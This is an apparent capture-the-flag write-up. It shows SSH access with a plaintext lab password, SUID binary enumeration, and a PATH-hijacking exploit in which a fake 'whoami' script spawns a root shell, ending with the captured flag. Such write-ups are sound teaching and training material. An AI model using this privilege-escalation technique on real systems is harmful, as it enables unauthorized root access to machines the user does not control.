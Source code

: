 # Web Privilege Escalation Maverick.md

### Initial Access

```bash
$ ssh -p 2022 maverick@ctf-18.security.cs.pub.ro
Password: jXztBtEWKYRMrjAF

Welcome to Ubuntu 20.04.1 LTS...
Last login: Tue Jul 22 15:39:28 2025
```

### Check for sudo Rights

```bash
$ sudo -l
[sudo] password for maverick:
Sorry, user maverick may not run sudo on maverick.
No sudo privileges were granted.
```

### Quick File‑System Enumeration

List SUID binaries (common PE): `$ find / -type f -perm /4000 -exec ls -ld {} \; 2>/dev/null` Scan this list manually for anything unusual.

Also looked at the home directory:

```bash
$ ls
mybin  scripts
```

### Inspect ~/scripts

```bash
$ cd scripts
$ ls
favorite-quote  whoami
```

- favorite-quote is a binary
- whoami is presumably a script or binary

Running them:

```bash
$ ./favorite-quote
Follow no path... Make your own!!! Life is what you make it...

Your faitfhully,
```

root: Even though we’re invoking it as maverick, it prints “root” as the author—strongly suggesting it’s a SUID root binary.

```bash
$ ./whoami
$ id
uid=1000(maverick) gid=1000(maverick)
```

The favorite-quote program calls system("whoami") after dropping into root context, so modifying whoami in our PATH yields a root shell.

### Exploitation via PATH Hijacking

Backup original whoami:

```bash
$ mv whoami whoami.orig
```

Create malicious whoami that spawns a root shell:

```bash
$ cat > whoami << 'EOF'
#!/bin/bash
# this will run with EUID=0
/bin/bash -p -i
EOF
$ chmod +x whoami
```

Prepend `./scripts` to PATH: `$ export PATH="$(pwd):$PATH"`. Invoke the SUID binary:

```bash
$ ./favorite-quote
Follow no path... Make your own!!! Life is what you make it...

Your faitfhully,
root@maverick:~/scripts# id
uid=0(root) gid=0(root) groups=0(root),1000(maverick)
```

We now have an interactive root shell.

### Get the flag
```bash
root@maverick:~/scripts# cat /root/flag.txt
SSS{t00_m4ny_f4c3b00k_qu0t3s}
```
